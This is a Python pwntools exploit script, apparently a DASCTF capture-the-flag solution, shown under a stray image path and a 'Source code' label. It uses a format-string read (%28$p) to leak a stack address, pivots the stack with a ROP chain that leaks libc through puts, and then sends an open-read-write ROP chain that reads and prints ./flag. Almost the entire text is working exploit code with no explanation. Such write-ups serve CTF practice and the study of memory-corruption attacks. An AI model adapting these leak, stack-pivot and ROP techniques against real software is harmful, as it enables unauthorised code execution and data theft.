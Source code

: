 ```bash
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data,num           :u32(p.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(p.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']

def dbg():
   gdb.attach(proc.pidof(p)[0])
   pause()

bss = elf.bss()-0x80
bss4=bss+0x400
li(hex(bss4))
pop_rdi=0x401413
ret=0x40101a
leave=0x4012e0
read=0x401378
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

ru('name:\n')
sl('%28$p')
ru('Hello, ')
stack_addr = int(p.recv(14),16)-0x1a0 
li('stack_addr = '+hex(stack_addr))

ru(b'Now, please say something to DASCTF:\n')

payload = p64(stack_addr+0xb0+0x28) 
payload += p64(pop_rdi)+p64(elf.got["puts"])+p64(elf.plt["puts"])+p64(0x401378) 
payload = payload.ljust(0xb0,b'\0')
payload+= p64(stack_addr)+p64(0x4012e0)
p.send(payload)

libc_base=l64()-libc.sym['puts']
li('libc_base = '+hex(libc_base))

pop_rsi = libc_base+0x000000000002601f 
pop_rdx = libc_base+0x0000000000142c92
open_addr = libc_base + libc.sym['open']
read_addr = libc_base + libc.sym['read']
puts_addr = libc_base + libc.sym['puts']

orw = p64(pop_rdi)+p64(stack_addr+0xd0)+p64(pop_rsi)+p64(0)+p64(open_addr)
#open('./flag\x00\x00',0)
orw += p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(elf.bss()+0x800)+p64(pop_rdx)+p64(0x50)+p64(elf.plt["read"])
#read(3,elf.bss()+0x800,0x50)
orw += p64(pop_rdi)+p64(elf.bss()+0x800)+p64(elf.plt["puts"])
#puts(elf.bss()+0x800)
orw = orw.ljust(0xa8,b'\0')+b'./flag\x00\x00'

orw+= p64(stack_addr+0x28-8)+p64(0x4012e0)
p.send(orw)

itr()
```
